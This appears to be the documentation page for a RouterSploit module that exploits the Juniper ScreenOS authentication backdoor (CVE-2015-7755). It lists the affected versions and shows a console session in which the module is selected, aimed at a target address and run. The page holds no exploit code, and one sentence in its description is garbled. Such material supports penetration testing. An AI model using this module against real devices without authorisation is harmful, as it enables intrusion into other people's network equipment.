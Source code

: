 # Juniper ScreenOS Backdoor

## Description
Module exploits Juniper ScreenOS Authentication Backdoor vulnerability. If the target is is possible to authentiate to the device.

## Authors
* hdm # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://community.rapid7.com/community/infosec/blog/2015/12/20/cve-2015-7755-juniper-screenos-authentication-backdoor](https://community.rapid7.com/community/infosec/blog/2015/12/20/cve-2015-7755-juniper-screenos-authentication-backdoor)

## Vulnerable devices
* Juniper ScreenOS 6.2.0r15 to 6.2.0r18
* Juniper ScreenOS 6.3.0r12 to 6.3.0r20

## Usage
```
rsf > use exploits/juniper/screenos_backdoor
rsf (Juniper ScreenOS Backdoor) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. 192.168.1.1


rsf (Juniper ScreenOS Backdoor) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Juniper ScreenOS Backdoor) > run
[*] Running module...
```
